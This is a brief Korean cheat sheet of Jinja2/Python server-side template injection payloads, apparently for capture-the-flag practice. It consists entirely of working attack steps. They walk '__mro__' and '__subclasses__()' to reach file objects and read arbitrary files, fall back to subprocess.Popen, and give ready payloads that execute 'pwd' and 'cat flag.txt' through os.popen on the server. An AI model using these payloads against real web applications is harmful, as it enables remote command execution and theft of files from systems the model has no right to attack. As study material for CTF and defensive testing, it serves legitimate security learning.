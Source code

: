 # 기본
1. {{ ''.__class__.__mro__ }} 를 쳐서 <type 'object'>의 인덱스를 찾음.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__() }}

# 파일
1. 위 mro의 subclass 에서 <type 'file'>의 인덱스를 찾는다.
2. {{ ''.__class__.__mro__[`인덱스`].__subclasses__()[`인덱스`].open(`파일 경로`).read() }}
3. 만약 <type 'file'>이 없다면 subprocess.Popen 같은걸 이용하자.

# 기타 코드들
## 파일 읽기
```
{{ ''.__class__.__mro__[1].__subclasses__()[408]\('pwd',stdout=-1).communicate() }}
```
```
{{ self._TemplateReference__context.cycler.__init_\_.__globals__.os.popen('cat flag.txt').read() }}
```

